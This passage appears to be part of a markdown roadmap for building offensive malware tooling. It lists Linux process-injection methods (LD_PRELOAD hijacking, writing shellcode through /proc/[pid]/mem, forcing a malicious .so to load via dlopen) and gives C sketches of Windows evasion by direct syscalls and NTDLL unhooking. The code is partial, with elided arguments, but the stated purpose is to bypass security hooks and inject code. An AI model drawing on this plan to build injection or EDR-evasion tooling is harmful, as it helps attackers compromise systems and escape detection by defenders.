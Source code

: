#### 3.2 LD_PRELOAD Hijacking
- **Real Implementation**: Runtime library injection
- **Features**:
  - Modify environment
  - Hook functions
  - Persist across execve

#### 3.3 /proc/[pid]/mem Injection
- **Real Implementation**: Direct memory writing
- **Features**:
  - Parse /proc/[pid]/maps
  - Find executable regions
  - Write shellcode
  - Trigger via signals

#### 3.4 .so Injection via dlopen()
- **Real Implementation**: Force library loading
- **Steps**:
  - Find dlopen in target
  - Setup stack for call
  - Redirect execution
  - Load malicious .so

### STAGE 4: Advanced Evasion (Week 2-3)

#### 4.1 Direct Syscalls
```c
// Bypass userland hooks entirely
NTSTATUS NtAllocateVirtualMemory_Direct(
    HANDLE ProcessHandle,
    PVOID* BaseAddress,
    ULONG_PTR ZeroBits,
    PSIZE_T RegionSize,
    ULONG AllocationType,
    ULONG Protect
) {
    // Direct syscall via assembly
    __asm__ (
        "mov r10, rcx\n"
        "mov eax, 0x18\n"  // NtAllocateVirtualMemory
        "syscall\n"
    );
}
```

#### 4.2 NTDLL Unhooking
- **Real Implementation**: Remove all hooks
```c
void unhook_ntdll() {
    // Map fresh NTDLL from disk
    HANDLE file = CreateFileA("C:\\Windows\\System32\\ntdll.dll", ...);
    HANDLE mapping = CreateFileMappingA(file, ...);
    LPVOID clean_ntdll = MapViewOfFile(mapping, ...);
    
    // Get current NTDLL
    HMODULE ntdll = GetModuleHandleA("ntdll.dll");
    
    // Find .text section
    PIMAGE_NT_HEADERS nt = ...;
    
    // Overwrite with clean bytes
    VirtualProtect(...);
    memcpy(hooked_text, clean_text, text_size);
}
```